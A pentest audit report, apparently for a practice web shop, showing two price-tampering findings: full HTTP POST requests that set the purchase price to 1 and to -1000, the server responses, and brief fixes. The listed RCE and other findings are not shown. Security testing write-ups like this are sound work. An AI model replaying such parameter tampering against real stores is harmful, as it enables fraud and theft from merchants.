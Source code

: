 ### Aduit report for SECURITY BRIGADE. 

## Contents
- Date

- Scope

- Vulnerabilites
  
  - High Impact
    - Buying anything!
    - Filling Up account balance.
    - RCE.
  
  - Medium Impact
    - No rate limit.
  
  - Low Impact
    - Information disclosure.
    
## Date
A pentest aduit was performed for the **SECURITY BRIGADE** at **Wednesday, 30 September 2020**. 

## Scope
Scope was limited to: **http://foophones.securitybrigade.com:8080/**

## Vulnerabilites
Vulnerabilites founded are listed according to their impact levels, explanations, and potential recommendations.

### High Impact

##### Buying anything!
It was found that an attacker can buy anything from **http://foophones.securitybrigade.com:8080/buy_confirm.php** regardless of what amount of credit is availabe in his/her account. By manipulating the buying request as 

- Request => 
```
POST /buy_confirm.php HTTP/1.1
Host: foophones.securitybrigade.com:8080
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://foophones.securitybrigade.com:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://foophones.securitybrigade.com:8080/buy.php?id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.2.1263643996.1601440842; _gid=GA1.2.13543791.1601440842; PHPSESSID=vc0cbm4jegj5m05cceg2l72k01
Connection: close

shipping=Finding&price=1&id=1
```
Note: Price parameter is changed from it's original value to 1.

- Response (interesting part only!) =>
```
					
					<font color=green>Thank you for your purchase! The product will be shipped to : Finding</font>		</div>
		<div id="sidebar">		
		
		
		<h2>Your credit is now: $98</h2>


Filling account !
```
- Recommendation
  User supplied data shloud be propelry checked before sending it to backend.

##### Filling Up account balance.
It was found that the same above attack senerio could be used by an attacker to fill his/her account. By manipulating the buying request as.

- Request => 
```
POST /buy_confirm.php HTTP/1.1
Host: foophones.securitybrigade.com:8080
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://foophones.securitybrigade.com:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://foophones.securitybrigade.com:8080/buy.php?id=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.2.1263643996.1601440842; _gid=GA1.2.13543791.1601440842; PHPSESSID=vc0cbm4jegj5m05cceg2l72k01
Connection: close

shipping=chekc&price=-1000&id=5
```
Note: Price parameter is changed from it's original value to -1000.

- Response (interesting part only!) =>
```
font color=green>Thank you for your purchase! The product will be shipped to : chekc</font>		</div>
		<div id="sidebar">		
		
		
		<h2>Your credit is now: $7573</h2>
		
				
		</div>
		<div style="clear: both;">&nbsp;</div>
	</div>
	<div id="footer">
		<p>&copy;&nbsp;Copyright 2009. Security Brigade </p>
	</div>
```
- Acttacker's account after buying and fillup up credit.
  ![Alt Text](https://i.ibb.co/NTPKp7B/screencapture-foophones-securitybrigade-8080-myaccount-php-2020-09-30-00-34-25.png)

- Recommendation
  Backend code shloud not accept negative values.
  



